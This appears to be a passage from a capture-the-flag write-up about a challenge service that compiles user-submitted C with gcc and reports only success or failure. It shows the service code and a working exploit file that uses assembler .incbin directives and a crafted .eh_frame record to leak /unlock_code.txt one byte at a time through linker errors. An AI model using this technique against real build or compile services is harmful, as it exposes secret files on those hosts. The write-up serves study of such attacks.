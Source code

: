 Since there is only valid processor available to us at this time, we'll examine the `process_c`
processor function. It is simple, it returns the exit code of the `gcc` function.

```python
  96   │ def process_c(user_input, working_dir):
  97   │     # Write the user input to main.c
  98   │     main_c = "{}/main.c".format(working_dir)
  99   │     open(main_c, 'wb').write(user_input)
 100   │
 101   │     # Test if building the file with gcc suceeds.
 102   │     code = subprocess.call(["gcc", "-Wl,--fatal-warnings", "-o", "/dev/null", main_c],
 103   │                            stdout=subprocess.DEVNULL,
 104   │                            stderr=subprocess.DEVNULL)
 105   │     return code == 0
```

Note that this is a similar problem to https://hxp.io/blog/64/hxp-36C3-CTF-compilerbot/ where a flag
had to be leaked based on `clang` compiles. The difference in this challenge is that the flag format
is no longer an exploitable factor as the file that we have to leak is `/unlock_code.txt` which
contains a UUID. This means that the predictable `flag{xxxx}` scheme cannot be leveraged with
`#define` and `#include` statements to craft input to `_Static_assert`. Additionally, there is no
C11 support.

There is, however, an alternative solution to the challenge which leverages assembler directives
instead by RPISEC: https://rpis.ec/blog/hxp-26c3-ctf-compilerbot/. This does work with `gcc` and
since the `--fatal-warnings` flag is passed to the linker, the error code is propagated back to
`gcc`.

For example, we create the following file to guess that the first character of the UUID is `A` (65).

```c
int main(void) {

__asm__ (
    ".pushsection .eh_frame\n"

    // length of CIE record, using one byte from flag
    // length must be at least 13
    ".incbin \"/unlock_code.txt\", 0, 1\n"
    ".rept 3\n"
    ".byte 0\n"
    ".endr\n"

    // 13 bytes of CIE record junk
    // http://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-Core-generic/LSB-Core-generic/ehframechpt.html
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".rept 65 - 13\n"
    ".byte 0\n"
    ".endr\n"

    ".popsection\n"
);

}
```
